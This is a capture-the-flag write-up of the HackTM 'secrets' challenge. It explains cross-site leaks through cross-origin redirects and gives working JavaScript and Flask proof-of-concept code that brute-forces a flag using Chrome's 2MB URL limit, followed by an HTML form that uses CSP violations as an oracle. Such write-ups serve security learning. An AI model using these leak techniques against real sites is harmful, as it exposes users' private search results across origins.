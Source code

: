 ```yaml
---
description: XS leak through cross-origin redirects — intended and unintended
---
```


# secrets

## Overview

> A secure and secret note storage system is a platform or application designed to keep your confidential notes safe from unauthorized access.

The challenge revolved around searching contents of secret notes.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 9.46.57 PM.png" alt=""><figcaption></figcaption></figure>

Let's examine the behaviour of the search feature.

When searching for a note through `/search?query=<query>`, there are two possible responses:

1. The note was found.

In this case, a 301 redirect is issued to `http://results.wtl.pw/results?ids=<note UUIDs>&query=<query>`.

```http
HTTP/1.1 301 MOVED PERMANENTLY
Server: nginx/1.23.3
Date: Sun, 19 Feb 2023 13:48:10 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 357
Connection: close
Location: http://results.wtl.pw/results?ids=92a05671-8e1a-468e-9b7f-c52789e77d4e&query=test
Vary: Cookie

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="http://results.wtl.pw/results?ids=92a05671-8e1a-468e-9b7f-c52789e77d4e&amp;query=test">http://results.wtl.pw/results?ids=92a05671-8e1a-468e-9b7f-c52789e77d4e&amp;query=test</a>. If not, click the link.
```

It is important to note that this is a redirect to a _different_ subdomain. Searching on **`secrets`**`.wtl.pw` redirects to **`results`**`.wtl.pw`.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 9.52.17 PM.png" alt=""><figcaption></figcaption></figure>

2. The note was not found.

In this case, a 301 redirect is issued to `http://secrets.wtl.pw/#<query>`.

```http
HTTP/1.1 301 MOVED PERMANENTLY
Server: nginx/1.23.3
Date: Sun, 19 Feb 2023 13:51:05 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 241
Connection: close
Location: http://secrets.wtl.pw/#asdf
Vary: Cookie

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="http://secrets.wtl.pw/#asdf">http://secrets.wtl.pw/#asdf</a>. If not, click the link.

```

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 9.51.58 PM.png" alt=""><figcaption></figcaption></figure>

## Unintended Solution — Chrome's 2MB URL Limit

One thing that might be immediately noticeable is that if the note was found, then the resulting URL length is extended considerably by the `ids` parameter.

A [well-known technique](https://xsleaks.dev/docs/attacks/navigations/#inflation) in these kinds of scenarios is hitting the server's maximum URL limit, and detecting error status codes. However, these rely on `SameSite=None` cookies for the [error event detection](https://xsleaks.dev/docs/attacks/error-events/).&#x20;

The challenge had `SameSite=Lax` cookies, so the primitive for any XS-Leak attack is a top-level navigation (e.g. through `window.open`). There is no way to detect server response codes in a cross-origin window reference, so I started looking for other ways to detect the URL inflation.

We might not be able to detect a _server-side_ URL length error, but can we somehow detect a _client-side_ one? According to [Chromium documentation](https://chromium.googlesource.com/chromium/src/+/main/docs/security/url\_display\_guidelines/url\_display\_guidelines.md#URL-Length), Chrome's maximum URL length is 2MB.

> In general, the _web platform_ does not have limits on the length of URLs (although 2^31 is a common limit). _Chrome_ limits URLs to a maximum length of **2MB** for practical reasons and to avoid causing denial-of-service problems in inter-process communication.

This is where it gets interesting! Because this is a _client-side_ constraint, and URL fragments persist on redirects, we can open `/search?query=<query>#AAA...[2MB]...AAA` to hit the length limit.

So, what happens when the URL limit is exceeded?

Apparently, it shows an `about:blank#blocked` page.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.38.58 PM.png" alt=""><figcaption></figcaption></figure>

As you might expect, trying to access the `origin` (or any other sensitive information) of a cross-origin window reference would raise an exception.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.43.00 PM.png" alt=""><figcaption></figcaption></figure>

However, when opening a page that errors out due to the 2MB constraint, the window's `origin` remains that of the parent.

As an experiment, let's try a successful query.

```javascript
let url = "http://secrets.wtl.pw/search?query=test#"
let w = window.open(url + "A".repeat(2 * 1024 * 1024 - url.length - 1))
```

The length of the opened URL&#x20;

```
http://secrets.wtl.pw/search?query=test#AAA...AAA
```

is exactly 2MB - 1, so the initial search URL is just under the length limit.

When the window is redirected to

```
http://results.wtl.pw/results?ids=<note UUIDs>&query=test#AAA...AAA
```

the URL is extended and the length limit is hit. The window becomes an `about:blank` page and its `origin` remains that of the parent.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.54.16 PM.png" alt=""><figcaption></figcaption></figure>

Now, if we try the same thing on an unsuccessful query, the final redirected URL falls short of the 2MB limit and the window's `origin` is no longer accessible.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.54.42 PM.png" alt=""><figcaption></figcaption></figure>

This can be extended to the following PoC, which brute-forces a character of the flag.

```markup
<html>
<body></body>
<script>
    (async () => {

        const curr = "http://secrets.wtl.pw/search?query=HackTM{"

        const leak = async (char) => {
            
            fetch("/?try=" + char)
            let w = window.open(curr + char +  "#" + "A".repeat(2 * 1024 * 1024 - curr.length - 2))
            
            const check = async () => {
                try {
                    w.origin
                } catch {
                    fetch("/?nope=" + char)
                    return
                }
                setTimeout(check, 100)
            }
            check()
        }

        const CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"

        for (let i = 0; i < CHARSET.length; i++) {
            leak(CHARSET[i])
            await new Promise(resolve => setTimeout(resolve, 50))
        }
    })()
</script>
</html>
```

Because this PoC only tells us what is definitely _not_ the flag (by detecting the `w.origin` errors), we can implement a backend server to quickly find what _is_ the flag by eliminating the unsuccessful queries from the charset.

```python
from flask import Flask, request

app = Flask(__name__)

CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"
chars = []

@app.route('/', methods=['GET'])
def index():
    global chars
    
    nope = request.args.get('nope', '')
    if nope:
        chars.append(nope)

    remaining = [c for c in CHARSET if c not in chars]

    print("Remaining: {}".format(remaining))

    return "OK"

@app.route('/exploit.html', methods=['GET'])
def exploit():
    return open('exploit.html', 'r').read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

The downside of this method is that the long URLs can cause significant lag on the server's admin bot. This _may or may not_ have made the bot extremely unstable for a period of time... oops!

## Intended Solution — CSP Violation

It turns out that there is a much faster and less laggy way of detecting the redirects. Because the redirect is to a different origin, we can use [CSP violations](https://xsleaks.dev/docs/attacks/navigations/#cross-origin-redirects) as an oracle.&#x20;

```markup
<meta http-equiv="Content-Security-Policy" content="form-action http://secrets.wtl.pw">
<form action="http://secrets.wtl.pw/search" method="get">
    <input type="text" name="query" value="test">
</form>

<script>
    document.addEventListener('securitypolicyviolation', () => {
        console.log("CSP violation!")
    });
    document.forms[0].submit();
</script>
```

Because the query was successful, the window attempted to load `http://results.wtl.pw`. But since our CSP dictates that forms can only be submitted to `http://secrets.wtl.pw`, the request was blocked. We can detect this through the `securitypolicyviolation` event listener.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 11.03.59 PM.png" alt=""><figcaption></figcaption></figure>
